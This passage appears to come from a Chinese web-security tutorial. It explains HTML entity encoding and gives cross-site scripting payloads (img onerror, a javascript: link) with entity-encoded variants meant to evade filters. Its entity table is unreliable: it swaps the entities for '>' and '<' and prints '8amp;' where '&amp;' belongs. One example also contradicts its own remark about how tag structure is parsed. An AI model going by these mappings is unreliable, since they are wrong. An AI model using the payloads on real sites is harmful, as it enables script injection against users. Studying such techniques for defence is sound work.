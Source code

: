 > ECMAScrip是Javascript的一个标准

#### HTML实体编码

Entity（实体）编码有两种格式：&entityName和&#entityNumber

&entityName："&"开头，";"结尾，以语义的形式描述字符。

&#entityNumber："&"开头，";"结尾，以语义的形式描述字符。以编号的形式描述字符。此编号可以为十进制或十六进制(以”&#x”开头)等数字格式。

举例：

    符号  entityName  entityNumber
    >       &lt;        &#60;
    <       &gt;        &#62;
    !       &excl;      &#33;
    "       &quot;      &#34;
    #       &num;       &#35;
    &       8amp;       &#38;
    
##### payload举例

例子一：

    <img src="1" onerror="alert(1)">
    
等效于

    <img src="1" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
    
等效于

    <img src=1 onerror&#61;alert(1)>
    
> 属于标签本身结构的部分不会被解析

例子二：

    <a href="javascript:alert(1)">click me</a>
    
等效于

    <a href="j&#x61;vascript:alert(1)">click me</a>
    
例子三：

    <img src="1" onerror="alert(1)">
    
等效于

    <img src="1"
    
    onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">

等效于

    <img src="1"
    onerror="&#00000000000000097;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
